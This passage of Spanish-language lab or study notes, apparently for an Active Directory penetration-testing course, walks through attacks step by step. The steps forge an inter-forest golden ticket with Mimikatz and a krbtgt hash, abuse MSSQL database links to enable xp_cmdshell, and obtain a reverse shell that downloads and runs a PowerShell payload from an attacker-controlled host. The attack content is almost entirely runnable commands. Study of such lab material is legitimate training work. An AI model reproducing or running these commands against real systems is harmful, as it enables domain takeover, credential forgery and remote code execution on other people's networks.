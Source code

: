 ..* `Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:3dcdf96dd989a53e24ca4eebe4629ab2 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\kekeo_old\trust_forest_tkt.kirbi"'`
Solicitamos un TGS al nuevo dominio:
..* `.\asktgs.exe C:\AD\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local`
Usamos el ticket:
..* `.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi`
Ahora podemos listar los directorios compartidos entre bosques:
..* `ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\`
..* `cat \\eurocorpdc.eurocorp.local\SharedwithDCorp\secret.txt`

#MSSQLServer
--------------
Desde student46
..* `Import-Module .\PowerUpSQL-master\PowerUpSQL.psd1`
Mirar los servidores SQL que hay en el dominio, genera falsos positivos:
..* `Get-SQLInstanceDomain`
Para mirar si tenemos conectividad:
..* `Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose`
Para ver más info:
..* `Get-SQLInstanceDomain | Get-SQLServerInfo`

## Database Links
-----------------
Los links de la bse de datos permiten a SQL Server acceder a datos externos de otros servidores o interactuar con objeros OLE DB.
En caso de encontrarnos estos links podemos abusar de ellos para ejecutar procedimientos internos, se puede utilizar incluso através de confianza de bosques.
Para mirar los links de una base de datos:
..* `Get-SQLServerLink -Instance dcorp-mssql -Verbose` --> Database Linkname: DCORP-SQL1 --> Databaselinklocation --> remote

Con la herramienta HeidiSQL, marcamos Microsoft SQL y que utilice las credenciales de windows, abrimos la sesion de la BD y podemos ejecutar sentencias:
..* `select * from master..sysservers` --> para ver links -> DCORP-SQL1
Para ejecutar sentencias en la base de datos remota:
..* `select * from openquery("dcorp-sql1",'select * from master..sysservers')` --> nos dice los links de la BD remota --> DCORP-MGMT
Para enumeras los links del dominio:
..* `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose` --> dcorp-mssql -> dcorp-sql1 -> dcorp-mgmt -> eu-sql.eu.eurocorp.local
Tambien se pueden ir encadenando las sentencias sql:
..* `select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')`
Para poder ejecutar comandos en el servidor remoto necesitamos que este activado xp_cmdshell, si no lo está podemos activarlocon rpcout (desactivado por defecto) con:
..* `EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"`
Para ejecutar comandos con powershell:
..* `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"` --> nos devuelve el usuario con el que está corriendo la base de datos en el servidor de eu-sql
..* `select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql",''''select @@version as version;exec master..xp_cmdshell "powershell whoami")'''')'')')`
Para conseguir una shell reversa desde eu-sql:
..* `powercat -l -v -p 443 -t 1000`
..* `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'powershell.exe -c iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.46/Invoke-PowerShellTcpEx.ps1'')'"` --> tenemos shell
Desde eu-sql no ha funcionado:
..* `"powershell.exe -c iex (New-Object Net.WebClient).DownloadString('http://172.16.100.46/Invoke-CleanUpByp.ps1')"`
..* `Invoke-CleanUpByp -Command "powershell.exe -c iex (New-Object Net.WebClient).DownloadString('http://172.16.100.46/Invoke-PowerShellTcpEx2.ps1')"`
